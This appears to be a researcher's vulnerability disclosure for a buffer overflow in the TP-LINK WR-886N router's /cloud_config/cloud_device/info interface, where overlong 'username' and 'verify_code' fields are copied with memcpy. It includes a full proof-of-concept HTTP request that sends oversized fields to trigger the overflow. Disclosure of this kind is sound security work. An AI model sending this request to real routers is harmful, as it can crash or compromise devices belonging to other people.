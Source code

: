 # TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/cloud_device/info interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/cloud_device/info interface.

1. An interface ```/cloud_config/cloud_device/info``` is registered first in the deviceInfoRegister function.
![](./chkResetVeriRegister1.png)
2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```verify_code``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.
![](./chkResetVeriRegister2.png)
## poc
```
POST /cloud_config/cloud_device/info HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&verify_code=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
